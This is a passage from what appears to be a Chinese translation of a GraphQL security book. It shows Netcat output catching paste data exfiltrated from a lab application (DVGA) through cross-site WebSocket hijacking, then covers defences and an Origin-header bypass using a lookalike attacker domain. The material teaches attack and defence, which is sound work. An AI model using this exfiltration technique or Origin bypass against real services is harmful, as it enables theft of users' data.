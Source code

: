 接下来，点击**提交**，并密切关注 Netcat 运行的终端窗口。你应该会看到类似这样的输出：

```
listening on [any] 4444 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 50198
GET /?**{%22type%22:%22data%22,%22payload%22:{%22data%22:{%22paste%22:{%22id%22:**
**%2214%22,%22title%22:%22This%20will%20get%20exfiltrated!%22,%22content%22:%22**
**Exiltrated%20Data%22,%22ipAddr%22:%22172.17.0.1%22,%22userAgent%22:%22**
**Mozilla/5.0%20(Windows%20NT%2010.0;%20Win64;%20x64)%20AppleWebKit/537**
**.36%20(KHTML,%20like%20Gecko)%20Chrome/96.0.4664.45%20Safari/537.36%22,**
**%22public%22:true,%22owner%22:{%22name%22:%22DVGAUser%22}}}}}** HTTP/1.1
Host: localhost:4444
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: "Linux"
Accept: */*
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Netcat 接收到来自受害者的 GET 请求，包含提取的粘贴数据。你可以看到请求的 URL 参数以 `/?{%22type` 开头。有效载荷经过 URL 编码，但解码后，你可以立即识别出它是我们通过 DVGA 用户界面创建的粘贴数据。你可以使用类似 [`meyerweb.com/eric/tools/dencoder`](https://meyerweb.com/eric/tools/dencoder) 的网站，或者通过在终端使用 Python 来进行这种 URL 解码，如 示例 9-13 所示。

```
# **echo** `'ADD-STRING-HERE'` **| python3 -c "import sys;**
**from urllib.parse import unquote; print(unquote(sys.stdin.read()));"**
```

示例 9-13：使用 Python 进行 URL 解码

我们通过强制客户端访问一个攻击者控制的网站，成功地提取了数据。该网站的自定义代码发送伪造的跨站 WebSocket 消息，并将响应数据传送到远程 Netcat 监听器。

### 防止 CSWSH

因为 CSWSH 是一种 CSRF 攻击，你可以通过使用 CSRF 防护技术来防止它。使用除 cookies 以外的身份验证方式（如 JWT）来认证客户端的 WebSocket 服务器，也可以提供保护。当服务器使用 JWT 令牌时，跨站 WebSocket 消息如果没有正确的头部将无法进行身份验证，从而导致握手失败。

验证 `Origin` 头部对于防止 CSWSH 攻击也至关重要，从黑客的角度来看，这项验证值得测试是否能绕过。服务器可能会以不同的方式检查该头部。例如，如果应用程序只允许 *example.com* 作为来源，攻击者可能会尝试创建一个将其用作子域的域名，如 *example.com.attacker.net*。如果服务器以简单的方式（例如，仅检查字符串 *example.com*）验证 `Origin` 头部，这样的攻击可能会绕过验证逻辑。

## 总结

本章介绍了影响 GraphQL API 消费者和服务器的攻击。通过基于 GET 和 POST 的 CSRF 攻击，攻击者可以伪造客户端的查询和突变。通过使用 CSWSH 劫持 WebSocket 通信，攻击者可以提取 GraphQL 订阅响应。最后，SSRF 允许攻击者伪造服务器请求，并可能访问内部资源。
